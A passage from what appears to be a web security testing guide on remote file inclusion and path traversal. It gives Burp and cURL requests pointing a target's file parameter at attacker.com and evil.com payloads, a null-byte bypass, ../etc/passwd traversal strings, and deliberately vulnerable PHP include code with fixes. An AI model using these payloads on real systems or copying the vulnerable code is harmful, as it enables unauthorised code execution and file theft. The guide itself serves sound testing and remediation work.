 **Steps**:
1. Set up a malicious file:
   - Host `malicious.php` on `http://attacker.com` with `<?php phpinfo(); ?>`.
2. Inject payloads:
   - Use Burp:
     ```http
     GET /page?file=http://attacker.com/malicious.php HTTP/1.1
     Host: example.com
     ```
   - Use cURL:
     ```bash
     curl -i "http://example.com/page?file=http://attacker.com/malicious.php"
     ```
3. Check responses:
   - Look for remote code execution (e.g., `phpinfo()` output).
   - Test: `https://evil.com/shell.txt`.
4. Test null byte bypass:
   - Try: `http://attacker.com/malicious.php%00`.

**Example Vulnerable Code (PHP)**:
```php
$file = $_GET['file'];
include($file);
```
Test: `?file=http://attacker.com/malicious.php`
Result: Executes remote code.

**Example Secure Code (PHP)**:
```php
$file = basename($_GET['file']);
if (file_exists($file) && in_array($file, ['home.php'])) {
    include($file);
} else {
    die("Invalid file");
}
```
Test: No inclusion.

**Remediation**:
- Disable remote inclusion:
  ```php
  allow_url_include = Off
  ```
- Validate file paths:
  ```php
  if (!file_exists($file)) die("File not found");
  ```

**Tip**: Save remote execution evidence in a report.

### 5. Test for Path Traversal

**Objective**: Check if user input can manipulate file paths to access restricted directories.

**Steps**:
1. Inject traversal payloads:
   - Use Burp:
     ```http
     GET /page?file=../config.php HTTP/1.1
     Host: example.com
     ```
   - Use cURL:
     ```bash
     curl -i "http://example.com/page?file=../config.php"
     ```
2. Check responses:
   - Look for file contents or errors.
   - Test: `../../etc/passwd` or `..%2f..%2fetc%2fpasswd`.